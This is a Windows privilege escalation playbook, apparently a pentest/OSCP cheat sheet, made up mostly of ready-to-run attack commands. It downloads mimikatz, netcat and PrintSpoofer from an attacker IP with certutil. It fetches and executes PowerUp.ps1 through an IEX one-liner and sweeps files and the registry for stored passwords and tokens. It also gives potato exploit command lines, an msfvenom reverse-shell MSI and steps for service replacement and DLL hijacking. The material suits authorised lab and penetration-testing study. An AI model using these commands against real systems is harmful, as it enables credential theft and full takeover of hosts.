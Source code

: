 # Windows Privilege Escalation Playbook

Quick-reference checklist for hunting Windows privilege escalation paths, covering manual checks, automated tooling, and common exploits. Replace placeholders (`<target>`, `<user>`, `<password>`) as needed.

---

## Quick Triage Checklist
- Identify current user context and host: `whoami`, `hostname`
- Inspect group memberships for elevated rights: `whoami /groups`
- Enumerate local users and privileged groups: `net user`, `net localgroup administrators`
- Capture OS build, architecture, and patch level: `systeminfo`, `wmic os get osarchitecture`, `wmic qfe`
- Review network footprint: `ipconfig /all`, `route print`
- List installed applications and running processes: `wmic product get name,version`, `tasklist /v`
- **Command bundle for a fast snapshot:**
  ```powershell
  whoami; hostname; whoami /groups;
  net user; net localgroup administrators;
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version";
  wmic os get osarchitecture; wmic qfe get HotFixID,InstalledOn;
  ipconfig /all; route print; tasklist /v
  ```

---

## O. Transfer File
```bash
certutil -urlcache -split -f http://10.10.14.160:8080/winPEASx64.exe
certutil -urlcache -split -f http://10.10.14.160:8080/mimikatz.exe
certutil -urlcache -split -f http://10.10.14.160:8080/PrintSpoofer.exe
certutil -urlcache -split -f http://10.10.14.160:8080/nc.exe

```

## 1. System Recon
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"` – OS baseline for kernel/patch checks.
- `wmic qfe get Caption,Description,HotFixID,InstalledOn` – Enumerate installed updates.
- `whoami /all` – Current user, groups, and privileges (look for SeImpersonatePrivilege, SeAssignPrimaryTokenPrivilege, etc.).
- `hostname` / `echo %COMPUTERNAME%` – Confirm host identity.
- `set` – Dump environment variables for credentials or unusual paths.
- `driverquery /v` – List drivers to identify vulnerable third-party components.
- `wevtutil qe System /c:10 /rd:true /f:text` – Recent system events (service crashes, policy changes).
- **Situational awareness command sweep:**
  ```powershell
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
  wmic qfe get Caption,Description,HotFixID,InstalledOn
  whoami /all
  driverquery /v
  wevtutil qe System /c:10 /rd:true /f:text
  ```

## 2. Account & Credential Recon
- `net user <username>` / `net user` – Local user enumeration.
- `net localgroup administrators` – Check local admin membership.
- `cmdkey /list` – Stored credentials.
- `vaultcmd /listcreds /all` – Credential Manager entries.
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"` – Auto-logon creds.
- `findstr /spin "password" C:\Users\*` – Harvest clear-text secrets from user profiles.
- `findstr /spin /c:"pass" C:\*` – Broad search for files containing the literal string "pass".
- **Hidden-in-plain-view sweep (passwords, tokens, secrets):**
  ```powershell
  findstr /spin "password" C:\Users\*
  findstr /spin "token\|secret" C:\Users\*
  findstr /spin /c:"pass" C:\*
  reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
  cmdkey /list
  vaultcmd /listcreds /all
  ```

## 3. Service & Driver Abuse
- `sc query state= all` – Enumerate services and states.
- `sc qc <service>` – Inspect service configuration (binary path, run-as account).
- `wmic service get name,displayname,startmode,startname` – Identify auto-start services running as SYSTEM.
- Check for unquoted service paths; note writable directories in the path.
- `accesschk.exe -uwcqv "Authenticated Users" * /accepteula` – Detect writable service binaries.
- Driver vulnerabilities: cross-reference `driverquery` output with exploit DB (e.g., CVE-2018-0952).

## 4. Scheduled Tasks & Startup
- `schtasks /query /fo LIST /v` – Look for high-priv tasks with modifiable actions.
- `dir "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"` – Startup folder abuse.
- Inspect `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` for writable autoruns.

## 5. Registry & Permission Weaknesses
- `reg query HKLM\SOFTWARE\Policies /s` – Misconfigured policies.
- `icacls "C:\Program Files"` – Find writable directories under Program Files.
- `Get-Acl` via PowerShell on critical paths (`C:\Windows\System32`, service binaries) to spot misperms.
- `reg query HKLM\SYSTEM\CurrentControlSet\Services /s | findstr /i "ImagePath"` – Review service ImagePaths for suspicious locations.
- **Interpreting key `icacls` flags:**  
  `F` (Full Control), `M` (Modify), `(W)` (Write), `(OI)` (Object Inherit), `(CI)` (Container Inherit). If low-privileged principals such as `BUILTIN\Users`, `Authenticated Users`, or `Everyone` hold `F`, `M`, or `(W)` on service binaries or directories, the path is likely exploitable.

## 6. Token & Privilege Abuse
- `whoami /priv` – Confirm user privileges.
- If SeImpersonatePrivilege present: deploy `PrintSpoofer`, `GodPotato`, or JuicyPotato.
- With SeAssignPrimaryTokenPrivilege: use `PsExec` or `incognito` to assign new tokens.
- With SeBackupPrivilege: use `diskshadow` + `ntdsutil` for AD database/download.

## 7. UAC & Logon Tricks
- `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System` – Determine UAC level.
- Test non-elevated processes for auto-elevate (fodhelper, sdclt, eventvwr) if UAC is misconfigured.
- `query user` – Identify interactive admins for impersonation opportunities.

## 8. Using PowerUp.ps1
- Import PowerUp: `powershell -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"`
- Key functions:
  - `Invoke-AllChecks` – Comprehensive audit of services, reg keys, creds.
  - `Get-ServiceUnquoted` / `Get-ModifiableServiceFile` – Service path exploits.
  - `Get-ModifiableScheduledTaskFile` – Writable scheduled tasks.
  - `Get-RegistryAlwaysInstallElevated` – MSI elevated install misconfigs.
  - `Invoke-ServiceAbuse -Name <service>` – Automatically reconfigure vulnerable services.

## 9. Automated Scanners & Scripts
- `winPEAS.exe /quiet` – Broad privilege escalation discovery.
- `Seatbelt.exe -group=all` – Quick situational awareness.
- `SharpUp.exe` – C# alternative for Windows priv-esc checks.
- `Jaws-enum.ps1` – PowerShell info-gathering script.
- `wesng <systeminfo_output.txt>` – Windows Exploit Suggester Next-Gen.

## 10. Common Priv-Esc Exploits
- **Potato Family (SeImpersonate/AssignPrimary tokens)**
  - PrintSpoofer64: `PrintSpoofer64.exe -i -c cmd.exe`
  - GodPotato: `GodPotato.exe -cmd "cmd.exe"`
  - JuicyPotatoNG: `JuicyPotatoNG.exe -l 1337 -c "{CLSID}" -p "C:\Windows\System32\cmd.exe"`
- **Service Binary Replacement**
  - Stop vulnerable service → replace executable with payload → start service.
- **Unquoted Service Path**
  - Place payload in path (e.g., `C:\Program Files\Vuln Service\program.exe`) and restart service.
- **AlwaysInstallElevated**
  - `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
  - `msfvenom -p windows/x64/shell_reverse_tcp -f msi` and run MSI to escalate.
- **DLL Hijacking**
  - Monitor loading DLLs via `Process Monitor` or `ListDLLs` → drop malicious DLL in writable directory.
- **Kernel Exploits**
  - Cross-reference build with exploit suggester (e.g., `PowerUp`, `wesng`) and deploy CVE-specific exploit like `CVE-2019-1388`.

## 11. Persistence & Verification
- After escalation, confirm with `whoami /groups` and `net session`.
- Locate OSCP flag files to document proof: `dir /s C:\*local.txt`, `dir /s C:\*proof.txt`
- Document exploited vector, commands, and files modified.
- Remove tooling and restore service order if required by engagement scope.

---

### Useful Download Links
- PowerUp.ps1: https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
- winPEAS: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
- PrintSpoofer: https://github.com/dievus/printspoofer
- GodPotato: https://github.com/BeichenDream/GodPotato
- JuicyPotatoNG: https://github.com/ohpe/juicy-potato
- Windows Exploit Suggester NG: https://github.com/bitsadmin/wesng
- Seatbelt: https://github.com/GhostPack/Seatbelt
- Kerbrute https://github.com/ropnop/kerbrute

